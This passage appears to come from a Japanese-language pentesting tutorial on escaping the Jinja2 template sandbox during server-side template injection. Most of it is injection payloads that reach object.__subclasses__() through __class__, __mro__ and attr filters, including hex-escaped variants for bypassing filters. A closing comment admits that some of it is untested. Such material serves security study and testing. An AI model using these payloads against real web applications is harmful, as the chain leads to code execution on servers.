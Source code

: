 まず、Jinjaインジェクションでは、**サンドボックスから脱出し**、通常のPython実行フローにアクセスを回復する方法を見つける必要があります。これを行うには、**サンドボックス環境内からアクセス可能だが、非サンドボックス環境からの**オブジェクトを**悪用する**必要があります。

### グローバルオブジェクトへのアクセス

例えば、コード `render_template("hello.html", username=username, email=email)` では、オブジェクトusernameとemailは**非サンドボックス化されたPython環境から来ており**、**サンドボックス化された環境内でアクセス可能**です。\
さらに、以下のオブジェクトは**常にサンドボックス化された環境からアクセス可能**です：
```
[]
''
()
dict
config
request
```
### \<class 'object'> の回復

これらのオブジェクトから、定義された**クラス**を**回復**しようとするために、**`<class 'object'>`** というクラスに到達する必要があります。これは、このオブジェクトから **`__subclasses__`** メソッドを呼び出し、**サンドボックス化されていない** Python 環境のすべてのクラスに**アクセス**できるためです。

その**オブジェクトクラス**にアクセスするには、**クラスオブジェクトにアクセス**し、その後 **`__base__`**、**`__mro__()`**`[-1]` または `.`**`mro()[-1]`** にアクセスする必要があります。そして、この**オブジェクトクラス**に到達した**後**、**`__subclasses__()`** を**呼び出します**。

これらの例を確認してください：
```python
# To access a class object
[].__class__
''.__class__
()["__class__"] # You can also access attributes like this
request["__class__"]
config.__class__
dict #It's already a class

# From a class to access the class "object".
## "dict" used as example from the previous list:
dict.__base__
dict["__base__"]
dict.mro()[-1]
dict.__mro__[-1]
(dict|attr("__mro__"))[-1]
(dict|attr("\x5f\x5fmro\x5f\x5f"))[-1]

# From the "object" class call __subclasses__()
{{ dict.__base__.__subclasses__() }}
{{ dict.mro()[-1].__subclasses__() }}
{{ (dict.mro()[-1]|attr("\x5f\x5fsubclasses\x5f\x5f"))() }}

{% raw %}
{% with a = dict.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}

# Other examples using these ways
{{ ().__class__.__base__.__subclasses__() }}
{{ [].__class__.__mro__[-1].__subclasses__() }}
{{ ((""|attr("__class__")|attr("__mro__"))[-1]|attr("__subclasses__"))() }}
{{ request.__class__.mro()[-1].__subclasses__() }}
{% with a = config.__class__.mro()[-1].__subclasses__() %} {{ a }} {% endwith %}
{% endraw %}






# Not sure if this will work, but I saw it somewhere
```